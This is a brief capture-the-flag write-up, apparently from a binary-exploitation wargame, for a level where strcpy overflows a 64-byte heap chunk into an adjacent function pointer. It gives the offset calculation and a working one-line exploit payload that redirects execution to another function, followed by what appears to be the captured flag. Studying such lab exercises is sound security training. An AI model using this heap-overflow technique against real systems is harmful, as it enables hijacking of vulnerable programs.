 # Level 6
```bash
su level6 #8d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

## Steps
This binary markes one `malloc(64)` then `malloc(4)`. It copies `argv[1]` to the `malloc(64)` using `strcpy`. By default, the address of `m()` is put at the `malloc(4)`. This address will then be executed.

We can try overflowing the `malloc(64)` to the next one, so that we modify the called address. To calculate the offset, we do:

```bash
$ ltrace ./level6
malloc 1 = 0x0804A008
malloc 2 = 0x0804A050
diff = 0x48 # 72 
```

*We replace the call to `m()` by `n()`.*

```bash
$ ./level6 $(python -c "print 72 * 'a' + '\x08\x04\x84\x54'[::-1]")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
